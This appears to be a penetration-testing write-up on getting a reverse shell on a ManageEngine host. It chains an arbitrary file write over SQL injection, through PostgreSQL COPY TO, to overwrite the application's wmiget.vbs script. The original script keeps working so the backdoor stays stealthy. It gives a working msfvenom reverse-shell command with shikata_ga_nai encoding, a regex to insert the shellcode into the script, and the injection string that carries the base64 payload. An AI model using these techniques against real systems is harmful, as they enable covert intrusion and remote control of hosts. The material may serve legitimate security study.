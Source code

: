 # Reverse Shell 1: VBS

With our arbitrary file write vulnerability, we hope to gain a reverse shell in our target system. The first method of doing this is to hijack the functionality of the manage engine application. 

We create a monitor against the windows host itself in Manage Engine, then check process monitor (filter path contains VBS) to check what VBS scripts are run. We find that the script `wmiget.vbs` at the path `.\working\conf\application\scripts\wmiget.vbs` .

We want a malicious copy of `wmiget.vbs` with a reverse shell to exploit. To maintain the original functionality for stealth, by inserting our payload into a large **one-line** VB script entry. 

- One-liner is due to postgreSQL’s COPY TO function being unable to process newline characters.
- Base64 encode payload to deal with special characters, and URL encode the payload to ensure it does not get mangled (i.e. `+` will be interpreted as spaces)
- Since a Base64 encoded payload may be quite large, change method from GET to POST, since server re-routes POST requests as GETs.

## VBS Script

Use regex to find-replace on VBS script to generate 1-liner

- Remove Comments: `'.*`
- Continuation lines (VBS equivalent of python ```): `<space>_.*?\n` (Remember to check matches newline)
- Remove tabs: `\t`
- Replace `\n` with newline character`:` (note that for linux pasted into windows, should be replacing `\r\n`)
- After modifying our VBS script, can use `script .\wmiget.vbs` to verify
- After this, we generate an MSF venom shellcode on Kali and insert the shellcode just before the termination command `WScript.Quit(0);`

```python
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST={LHOST} LPORT={LPORT} -e x86/shikata_ga_nai -f vbs > {filename}
script = re.sub(r'::(?=WScript.Quit\(0\))', f':{shellcode}:', script)
# Use forward lookahead to perform regex insertion/replacement operation. 
```

## Sending VBS Script

```python
userId = f"1;COPY+(SELECT+convert_from(decode($${content_encoded}$$,$$base64$$),$$utf-8$$))+TO+$${filePath}$$;--+"
```